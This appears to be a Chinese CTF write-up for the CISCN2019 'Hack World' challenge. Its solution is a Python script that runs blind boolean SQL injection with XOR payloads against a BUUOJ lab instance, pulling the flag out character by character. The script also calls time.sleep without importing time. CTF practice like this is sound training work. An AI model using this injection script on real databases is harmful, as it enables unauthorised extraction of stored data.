 # [CISCN2019 华北赛区 Day2 Web1]Hack World

## 题目描述
---
```

```

## 题目来源
---
CISCN2019

## 主要知识点
---
SQL注入

## 题目分值
---


## 部署方式
---


## 解题思路
---

使用如下脚本进行flag爆破

```python
import requests
url="http://2c3bcac1-f3f3-49e7-aa82-54a476f07224.node3.buuoj.cn//index.php"
flag=""
for a in range(127):
    for b in range(32,127):
        x=requests.post(url,data={
            "id":"1^(ascii(substring((select(flag)from(flag)),{},1))>{})^0".format(a,b)
        })
        print("1^(ascii(substring((select(flag)from(flag)),{},1))>{})^0".format(a,b))
        time.sleep(0.1)
        if "Hello, glzjin wants a girlfriend." in x.text:
            flag+=chr(b)
            print(flag)
            break
```

![](images/ctf-2021-06-19-16-56-45.png)

## 参考
---
